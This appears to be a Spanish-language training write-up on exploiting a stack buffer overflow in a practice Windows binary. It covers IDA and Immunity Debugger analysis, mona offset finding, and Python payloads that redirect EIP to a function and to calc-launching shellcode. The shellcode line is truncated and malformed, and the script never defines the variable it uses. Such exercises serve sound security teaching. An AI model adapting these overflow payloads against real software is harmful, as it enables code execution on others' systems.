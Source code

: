 +++
author = "Nyaboron"
title = "Easy peasy Stack Overflow"
date = "2021-02-19"
description = ""
categories = [
    "exploit"
]
tags = [
    "exploit",
]
+++




La idea es aprender a detectar y explotar la vulnerabilida stackoverflow en el caso más sencillo, con la mitigación Data Execution Prevention desactivada y teniendo el código fuente. El objetivo es solucionar el ejercicio de dos formas, primero redirigir el flujo a la función «call_me» y segundo redirigir la ejecucion hacia una shellcode dada por como entrada la cual lance la calculadora de Windows.

> Enlace al [código fuente y versión compilada.](files/code_and_solution.zip)

## Introducción

Para buscar la vulnerabilidad inicialmente hago un análisis estático con **IDA**, con este encuentro el código que permite el stack overflow, a continuación depuro el binario con **Immunity Debugger** para verificar el análisis estático y hago uso del módulo **mona** que **facilita el cálculo del número Bytes necesarios para sobreescribir el valor de retorno.** Finalmente muestro los exploits programados para llamar a la función call_me y la ejecución de un shellcode que inicia la calculadora de windows. 

## Análisis estático

Una vez abierto el binario con IDA compruebo si ha encontrado strings.

![](images/image1.png)

Con un vistazo rápido a las referencias cruzadas compruebo que el string marcado en la imágen anterior corresponde al main, el resto son usados dentro de una misma función. Para comprobar la referencias cruzadas a los strings voy a la vista en texto del código.

![](images/image2.png)

Teniendo seleccionado el string pulso ‘X’ para mostrar las referencias cruzadas.

![](images/image3.png)

La función donde es usado el string vista como un grafo es la siguiente.

![](images/image4.png)

Para explicar el análisis me ha parecido mejor hacerlo en base al resultado final tras renombrar las variables y añadir colores, de esta forma creo que se hará menos tedioso al no ir mostrando variable por variable como las renombro.

![](images/image5.png)

La función fopen devuelve un puntero a una estructura del tipo File, si este es nulo el fichero no se ha podido abrir. Por tanto en este momento ya podemos renombrar las variables como “filename” al argumento y “var_file_ptr” al FILE* devuelto por fopen.

![](images/image6.png)

La captura del prototipo de la función fopen (y las siguientes) es de la web cplusplus.com. Ahora es donde el código difiere del Stack1.

![](images/image7.png)

Primero hace uso de la función fread, comprobando sus argumentos ya identificamos el buffer donde almacena lo leído del fichero y el tamaño de 512B del buffer, por tanto renombro las variables a “buffer_fichero” y “size”.

![](images/image8.png)

Luego encontramos la función strstr, esta busca el string dado como segundo argumento en el string dado en el primer argumento. La variable usada para almacenar el puntero al inicio del substring la renombro “ptr_substr”. Con esto ya sabemos que para la ejecución dinámica se necesita pasar como argumento un fichero que contenga como mínimo la cadena “http”.

![](images/image8-1.png)

Para acabar, el último nodo se encarga de copiar la url encontrada en una variable, además imprime el valor de la url y cierra el fichero.

![](images/image9.png)

La función memcpy copia “num” bytes del buffer pasado como segundo parámetro al buffer pasado como primer parámetro sin tener en cuenta el carácter ‘\0’. Por  tanto si no se controlan el número de bytes copiados y los sizes de los buffers estamos ante un posible stack overflow.

![](images/image10.png)

El buffer de la variable destino “buffer_url” no ha sido usado hasta ahora, su size son 16B. Dado que memcpy copiará 254 “num” bytes se está copiando más datos de los reservados para el buffer de la url.

![](images/image11.png)

La stack quedaría de la siguiente forma:

![](images/image12.png)

La distancia entre el buffer_url y el eip a sobreescribir no llega a los 40h por lo que es viable explotar este stack overflow ya que se copian 100h.

## Análisis dinámico

Una vez abierto el binario Stack2 situo el código a analizar buscando los strings.

![](images/image13.png)

En cuanto al fichero de entrada el pattern lo genero con mona, al inicio del fichero de entrada añado el string “http://” para que pueda usar directamente el byte que me indique.

![](images/image14.png)

Pongo un breakpoint con ‘F2’ en el fclose y eax contiene parte del pattern y que se ha sobreescrito la dirección de memoria del FILE*.

![](images/image15.png)

Ejecuto “!mona findsmp” para obtener la posición, en el Byte 13 del pattern empieza la dirección de memoria del fichero.

![](images/image16.png)

A continuación pongo a null el valor del FILE* para que fclose no pare la ejecución del programa por la dirección de memoria sobreescrita y ejecuto hasta el RET para que recupere de la stack el valor de eip sobreescrito.

Ejecuto de nuevo “!mona findsmp” y obtengo que eip se encuentra en el byte 29 del pattern.

![](images/image17.png)


## Llamar la función call_me

El exploit va precedido de la cadena “http://”, la dirección del fichero empieza (sin tener en cuenta el string inicial) en el Byte 13 y eip en el Byte 29.

```python
call_me = 0x401530
f = open('Stack2_exp.txt', 'wb')
 
payload = "http://"
payload += 13*'X' # relleno
payload += struct.pack("<I", 0x0)  # FILE* a null
payload += 8*'X' # relleno
payload += 4*'A' # ebp
payload += struct.pack("<I", call_me) #eip
 
f.write(payload)
f.close()
```

Una vez introducida la payload compruebo en el depurador que pase la función fclose y que la dirección de retorno sea la del call_me.

![](images/image18.png)

![](images/image19.png)


## Ejecutar una shellcode

El código de la shellcode lo guardo en la pila, a continuación de la dirección de retorno pongo una lista de NOPs y la shellcode.

```python
call_shellcode = 0x22FEB0
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\xx1b..."
payload = "http://"
payload += 13*'X' # relleno
payload += struct.pack("<I", 0x0)  # FILE* a null
payload += 8*'X' # relleno
payload += 4*'A' # ebp
payload += struct.pack("<I", call_shellcode) #eip
payload += 9*'\x90' #NOPs
payload += calc_shellcode
```

En las siguientes imágenes se puede ver la dirección a la shellcode antes de realizar el salto y la rista de NOPs antes de la shellcode.

![](images/image20.png)

![](images/image21.png)

Finalmente ejecuto Stack desde la terminal

![](images/image22.png)